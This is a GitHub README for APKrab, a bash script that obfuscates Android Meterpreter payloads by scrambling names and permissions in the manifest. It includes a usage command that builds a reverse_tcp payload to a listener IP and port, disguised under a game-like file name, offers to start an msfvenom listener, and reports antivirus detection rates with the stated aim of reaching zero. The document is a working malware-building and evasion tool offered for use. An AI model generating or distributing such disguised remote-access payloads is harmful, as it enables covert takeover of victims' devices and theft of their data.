# Dependencies
To use APKrab you first need to install apktool and default-jdk

# APKrab
APKrab is a dummy bash script to obfuscate android meterpreter by mixing names and permissions in AndroidManifest.xml and other files and directories
![vmplayer_R3kyjZHvkA.jpg](https://cdn.rawgit.com/whoisML/APKrab/master/image/vmplayer_R3kyjZHvkA.jpg)

# Usage
First we must give execution permissions with chmod +x APKrab.sh
Then we can do for example:
./APKrab.sh -p android/meterpreter/reverse_tcp -H 10.0.0.16 -P 7777 -o amon-us.apk

APKrab also has default options we can use them with:
./APKrab.sh -g
![vmplayer_ZW2I2Xya03.jpg](https://cdn.rawgit.com/whoisML/APKrab/master/image/vmplayer_ZW2I2Xya03.jpg)

At the end APKrab will ask to generate a msfvemon listener if so then it will ask to launch it
![vmplayer_Icsbs5mvuD.jpg](https://cdn.rawgit.com/whoisML/APKrab/master/image/vmplayer_Icsbs5mvuD.jpg)

# virustotal results (DONT UPLOAD YOUR SAMPLES TO VIRUSTOTAL)
In this example we hit 16/63 in virustotal so hope with the time and your modifications we can hit 0 flagged
![vmplayer_Wdeanc6BeL.jpg](https://cdn.rawgit.com/whoisML/APKrab/master/image/vmplayer_Wdeanc6BeL.jpg)

